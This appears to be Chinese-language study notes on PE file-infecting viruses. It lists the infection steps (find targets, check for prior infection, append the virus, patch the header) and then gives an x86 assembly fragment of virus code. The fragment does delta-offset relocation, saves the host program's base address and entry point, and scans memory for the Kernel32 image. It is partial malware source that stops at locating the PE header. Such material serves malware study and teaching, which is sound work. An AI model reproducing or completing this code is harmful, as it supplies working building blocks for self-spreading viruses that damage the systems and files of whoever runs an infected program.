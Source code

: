 <img src="image-20250519132538968.png" alt="image-20250519132538968" style="zoom: 67%;" />

主要过程

1. 搜索感染⽬标
2. 打开感染⽂件，判断是否已被感染；
3. 将病毒写⼊⽬标⽂件尾部；
4. 修改⽬标⽂件头部；

## PE 文件型病毒

```asm
; 病毒重定位
vstart:
  push ebp
  push esp
  call nstart
nstart: 
  pop ebp
  sub ebp,offset nstart

;  备份原始程序的基址（Base Address）和入口点（Entry Point）
cmp old_base[ebp],0
jnz gonext
mov old_base[ebp],400000h
gonext:
  cmp old_in[ebp],0
  jnz change
  mov old_in[ebp],1000h
change:
  mov eax, old_base[ebp]
  mov des_base[ebp], eax
  mov eax, old_in[ebp]
  mov des_in[ebp], eax

; 获得KERNEL32地址
mov   eax,[esp+10h] ;//取Kernel32返回地址
and   ax,0f000h
mov   esi,eax   ;//得到Kernel.PELoader代码位置(不精确)
LoopFindKernel32:
  sub   esi,1000h 
  cmp   word ptr[esi],'ZM' ;//搜索EXE文件头
  jnz   short LoopFindKernel32
GetPeHeader:
  movzx edi,word ptr[esi+3ch]
  add   edi,esi
```